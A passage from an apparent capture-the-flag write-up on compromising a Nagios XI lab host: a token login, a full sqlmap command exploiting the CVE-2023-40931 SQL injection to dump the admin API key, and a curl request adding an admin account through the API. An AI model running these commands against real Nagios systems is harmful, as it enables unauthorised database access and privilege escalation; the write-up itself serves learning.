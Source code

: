 Having the token, I looked for a way to use it to login and I found a [FAQ](https://www.nagios.org/ncpa/help/2.0/api.html) on *nagios.org* where it mentions the token parameter to insert in the URL, which in our case will be as follows:

`https://nagios.monitored.htb/nagiosxi/login.php?token=9ee9028a008e7984124dbf55a5342e0dc9242a5e`

Unfortunately, after logging in, nothing could be used.

## 4. CVE-2023-40931

At this point I started looking for exploits for nagiosxi, when I found [CVE-2023-40931](https://nvd.nist.gov/vuln/detail/CVE-2023-40931). This CVE targets the */nagiosxi/admin/banner_message-ajaxhelper.php* endpoint using the parameters *action* and *id*, appropriately set, to perform a SQLInjection.

`sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?id=3&action=acknowledge_banner_message" --cookie "nagiosxi=6v0u1hph21hdrpsjgbej48qlcc" --dbms=MySQL -p id --dump`

<p align="center">
  <img src="images/sqlmap.png" />
</p>


As you can see from the screenshot above, we obtain the *api_key* of the admin. After doing some research on how to use all the information found so far, I found a [topic](https://support.nagios.com/forum/viewtopic.php?t=42923) (on *support.nagios .com*) which reports the command to run to add a user with elevated privileges.

```bash
└─$ curl -X POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=asd&password=asd&name=asd&email=asd@localhost&auth_level=admin"
{
    "success": "User account asd was added successfully!",
    "user_id": 6
}
```

After adding the user, we login.

<p align="center">
  <img src="images/after_login.png" />
</p>
